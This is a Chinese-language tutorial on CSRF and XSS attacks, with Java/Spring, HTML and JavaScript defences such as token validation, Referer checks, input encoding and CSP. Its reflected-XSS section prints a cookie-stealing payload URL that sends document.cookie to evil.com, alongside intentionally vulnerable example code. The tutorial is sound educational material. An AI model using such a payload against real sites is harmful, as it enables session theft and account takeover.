



## 跨站请求伪造攻击（CSRF）

### 攻击原理解析

跨站请求伪造（Cross-Site Request Forgery，简称CSRF）是一种利用用户已登录身份发起恶意请求的攻击方式。攻击者通过诱导用户访问恶意页面，在用户不知情的情况下以用户身份执行敏感操作。

这种攻击的危害包括：账户资金转移、个人信息泄露、社交账号发布垃圾内容等。攻击的核心在于利用浏览器会自动携带Cookie的特性，让服务器误以为请求来自合法用户。



### 攻击成功的条件

CSRF攻击需要满足以下条件才能成功：

1. **用户已登录目标网站**：本地存在有效的会话Cookie
2. **用户访问恶意页面**：可能是钓鱼链接、广告弹窗或被入侵的正常网站
3. **目标接口存在漏洞**：未进行有效的请求来源验证

需要注意的是，关闭浏览器并不一定会结束会话。很多网站的Cookie设置了较长的有效期，这意味着即使关闭浏览器，会话仍然有效。

### 防护方案详解

#### 方案一：验证HTTP Referer字段

HTTP协议规定请求头中的`Referer`字段记录请求的来源地址。服务端可以通过检查该字段判断请求是否来自可信域名。

```java
@Component
public class RefererCheckInterceptor implements HandlerInterceptor {
    
    private static final List<String> TRUSTED_DOMAINS = Arrays.asList(
        "www.myshop.com",
        "api.myshop.com"
    );
    
    @Override
    public boolean preHandle(HttpServletRequest request, 
                            HttpServletResponse response, 
                            Object handler) {
        String referer = request.getHeader("Referer");
        if (referer == null) {
            response.setStatus(HttpServletResponse.SC_FORBIDDEN);
            return false;
        }
        
        try {
            URL url = new URL(referer);
            String host = url.getHost();
            if (!TRUSTED_DOMAINS.contains(host)) {
                response.setStatus(HttpServletResponse.SC_FORBIDDEN);
                return false;
            }
        } catch (MalformedURLException e) {
            response.setStatus(HttpServletResponse.SC_FORBIDDEN);
            return false;
        }
        return true;
    }
}
```

**局限性**：不同浏览器对Referer的实现方式不同，某些浏览器允许用户修改该字段，因此不能完全依赖此方案。

#### 方案二：Token验证机制

在请求中加入随机生成的Token，服务端验证Token的有效性。由于Token存储在页面中而非Cookie，攻击者无法获取。

```java
@Service
public class CsrfTokenService {
    
    @Autowired
    private RedisTemplate<String, String> redisTemplate;
    
    // 生成Token并存储到Session
    public String generateToken(String sessionId) {
        String token = UUID.randomUUID().toString().replace("-", "");
        redisTemplate.opsForValue().set(
            "csrf:token:" + sessionId, 
            token, 
            30, 
            TimeUnit.MINUTES
        );
        return token;
    }
    
    // 验证Token
    public boolean validateToken(String sessionId, String token) {
        String storedToken = redisTemplate.opsForValue()
            .get("csrf:token:" + sessionId);
        return storedToken != null && storedToken.equals(token);
    }
}
```

前端表单中嵌入Token：

```html
<form action="/order/submit" method="POST">
    <input type="hidden" name="_csrf_token" value="${csrfToken}"/>
    <!-- 其他表单字段 -->
    <button type="submit">提交订单</button>
</form>
```

#### 方案三：自定义请求头验证

将Token放在HTTP请求头的自定义字段中，通过XMLHttpRequest发送。这种方式的优势在于Token不会出现在URL中，也不会通过Referer泄露。

```javascript
// 前端Ajax请求封装
const csrfToken = document.querySelector('meta[name="csrf-token"]').content;

fetch('/api/order/create', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json',
        'X-CSRF-Token': csrfToken
    },
    body: JSON.stringify(orderData)
});
```

## 跨站脚本攻击（XSS）

### 攻击原理与分类

跨站脚本攻击（Cross-Site Scripting，简称XSS）是指攻击者在网页中注入恶意脚本代码，当其他用户浏览该页面时，脚本在用户浏览器中执行，从而窃取用户信息或执行恶意操作。



### 反射型XSS示例

假设有一个搜索功能，直接将用户输入展示在页面上：

```java
// 存在漏洞的代码
@GetMapping("/search")
public String search(@RequestParam String keyword, Model model) {
    model.addAttribute("keyword", keyword);
    return "search-result";
}
```

```html
<!-- 存在漏洞的模板 -->
<p>搜索结果：${keyword}</p>
```

攻击者构造恶意链接：

```
https://example.com/search?keyword=<script>document.location='https://evil.com/steal?cookie='+document.cookie</script>
```

当用户点击此链接，脚本执行后会将Cookie发送到攻击者服务器。

### 存储型XSS示例

在论坛评论功能中，用户提交的评论被存储到数据库：

```java
// 存在漏洞的代码
@PostMapping("/comment")
public void addComment(@RequestBody CommentDTO comment) {
    // 直接存储，未进行过滤
    commentRepository.save(comment);
}
```

攻击者提交包含脚本的评论：

```html

```

所有查看该评论的用户都会执行此恶意脚本。

### 防护方案详解

#### 输入过滤与输出编码

```java
@Component
public class XssFilter implements Filter {
    
    @Override
    public void doFilter(ServletRequest request, 
                        ServletResponse response, 
                        FilterChain chain) throws IOException, ServletException {
        XssHttpServletRequestWrapper wrappedRequest = 
            new XssHttpServletRequestWrapper((HttpServletRequest) request);
        chain.doFilter(wrappedRequest, response);
    }
}

public class XssHttpServletRequestWrapper extends HttpServletRequestWrapper {
    
    public XssHttpServletRequestWrapper(HttpServletRequest request) {
        super(request);
    }
    
    @Override
    public String getParameter(String name) {
        String value = super.getParameter(name);
        return sanitize(value);
    }
    
    private String sanitize(String input) {
        if (input == null) {
            return null;
        }
        // HTML实体编码
        return input.replaceAll("<", "&lt;")
                   .replaceAll(">", "&gt;")
                   .replaceAll("\"", "&quot;")
                   .replaceAll("'", "&#x27;")
                   .replaceAll("/", "&#x2F;");
    }
}
```

#### 使用安全框架

Spring Security提供了内置的XSS防护：

```java
@Configuration
@EnableWebSecurity
public class SecurityConfig {
    
    @Bean
    public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
        http.headers(headers -> headers
            .xssProtection(xss -> xss.headerValue(XXssProtectionHeaderWriter.HeaderValue.ENABLED_MODE_BLOCK))
            .contentSecurityPolicy(csp -> csp.policyDirectives("script-src 'self'"))
        );
        return http.build();
    }
}
```

#### 内容安全策略（CSP）

通过设置Content-Security-Policy响应头，限制页面可以加载的资源来源：

```
Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted-cdn.com; style-src 'self' 'unsafe-inline'
```

## CSRF与XSS的关联与区别



| 对比维度 | CSRF | XSS |
|---------|------|-----|
| 攻击目标 | 利用用户身份执行操作 | 窃取用户数据或执行恶意代码 |
| 代码执行位置 | 不需要在目标站点执行代码 | 在目标站点浏览器中执行 |
| 依赖条件 | 用户已登录目标站点 | 目标站点存在注入漏洞 |
| 防护重点 | Token验证、Referer检查 | 输入过滤、输出编码 |

## 综合防护最佳实践

1. **使用安全框架**：Spring Security、OWASP ESAPI等成熟框架内置了多种防护机制
2. **遵循最小权限原则**：敏感操作要求二次验证
3. **Cookie安全配置**：设置HttpOnly和Secure属性
4. **定期安全审计**：使用自动化工具扫描漏洞
5. **安全编码培训**：提升开发人员安全意识
